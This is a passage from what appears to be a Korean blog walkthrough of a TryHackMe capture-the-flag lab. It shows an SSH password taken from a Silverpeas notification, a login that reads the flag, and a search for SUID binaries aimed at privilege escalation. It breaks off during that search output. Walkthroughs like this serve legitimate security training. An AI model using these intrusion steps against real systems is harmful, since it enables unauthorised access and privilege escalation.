 http://10.10.157.2:8080/silverpeas/look/jsp/MainFrame.jsp

# silveradmin@localhost

# Administrateur

# Manager

![](https://velog.velcdn.com/images/agnusdei1207/post/df68857c-befb-40b7-9ca7-48150afa7efa/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/78890476-6e63-4485-a074-0068132e8305/image.png)

# notification ID5 확인

![](https://velog.velcdn.com/images/agnusdei1207/post/f0a7859b-e9f1-4d50-bb4c-8a3a3febbcd6/image.png)

# Manager 인증 됨 -> 알림 확인 -> SSH 정보 노출

![](https://velog.velcdn.com/images/agnusdei1207/post/fb70746a-1bbd-417c-a1e4-68560a724423/image.png)

Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes.

# Username 아이디: tim

# Password 비밀번호: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol

# ssh tim@10.10.157.2 -> SSH 접속 성공

tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
tim@silver-platter:~$

# Privilege-escalation

# SUID + 실행 가능 파일 찾기

tim@silver-platter:~$ find / -perm -4000 -type f -executable -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 85064 Feb 6 2024 /snap/core20/2264/usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Feb 6 2024 /snap/core20/2264/usr/bin/chsh
-rwsr-xr-x 1 root root 88464 Feb 6 2024 /snap/core20/2264/usr/bin/gpasswd
-rwsr-xr-x 1 root root 55528 May 30 2023 /snap/core20/2264/usr/bin/mount
-rwsr-xr-x 1 root root 44784 Feb 6 2024 /snap/core20/2264/usr/bin/newgrp
-rwsr-xr-x 1 root root 68208 Feb 6 2024 /snap/core20/2264/usr/bin/passwd
-rwsr-xr-x 1 root root 67816 May 30 2023 /snap/core20/2264/usr/bin/su
-rwsr-xr-x 1 root root 166056 Apr 4 2023 /snap/core20/2264/usr/bin/sudo
-rwsr-xr-x 1 root root 39144 May 30 2023 /snap/core20/2264/usr/bin/umount
-rwsr-xr-x 1 root root 477672 Jan 2 2024 /snap/core20/2264/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 85064 Nov 29 2022 /snap/core20/1974/usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Nov 29 2022 /snap/core20/1974/usr/bin/chsh
-rwsr-xr-x 1 root root 88464 Nov 29 2022 /snap/core20/1974/usr/bin/gpasswd